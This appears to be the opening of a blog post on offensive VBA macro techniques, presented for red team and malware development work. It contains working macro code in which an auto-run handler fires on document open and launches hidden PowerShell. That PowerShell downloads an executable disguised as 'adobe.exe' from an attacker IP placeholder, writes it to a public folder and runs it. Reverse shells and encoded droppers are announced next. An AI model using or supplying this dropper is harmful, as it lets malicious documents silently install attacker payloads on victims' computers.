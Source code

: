 ```yaml
---
layout: post
title: "Offensive VBA Techniques Part 2: Stealth Droppers, Encoded Payloads and Powercat"
date: 2025-08-26
categories: [Red Team,Macro,Malware Analysis,Malware Development,Blue Team,VBA,Cyber Security]
image: https://cdn-images-1.medium.com/max/800/1*mnrR2hoKfGXc2KOuxiCi8A.jpeg
---
```


After discussing fundamental VBS in Part 1, we will now move on to more complex subjects, such as

> . Powershell Droppers

> . Encoded Droppers

> . Powercat Reverse Shell

> . Auto-Remove Dropper

* * *

### Detailed Breakdown of PowerShell Droppers in VBA

This VBA macro script acts as a **PowerShell dropper**, designed to download and execute remote payloads via PowerShell. It employs different techniques for **disk-based** and **fileless execution**, allowing flexibility in delivering malicious code.

#### 1. Understanding `AutoOpen() &Document_Open()`

```
Sub AutoOpen()
    Call PSDropper
End Sub
Sub Document_Open()
End Sub
```

**Explanation**

- `AutoOpen()`This macro automatically executes when the document is opened (used in Word/Excel).
- `Document_Open()`: A stub that can be modified to trigger macros upon document opening.

**Purpose**: Ensures **automatic execution** when the document is opened (TTP for VBA-based malware).

* * *

#### 2. `PSDropper()` - Disk-Based PowerShell Dropper

```
Sub PSDropper()
    Dim dropper As Object
    Set dropper = CreateObject("WScript.Shell")
    dropper.Run "powershell.exe -Command ""Invoke-WebRequest -Uri 'http://<ip>:8080/adobe.exe' -OutFile 'C:\Users\Public\adobe.exe'; Start-Process 'C:\Users\Public\adobe.exe'""", 0 ,False
End Sub
```
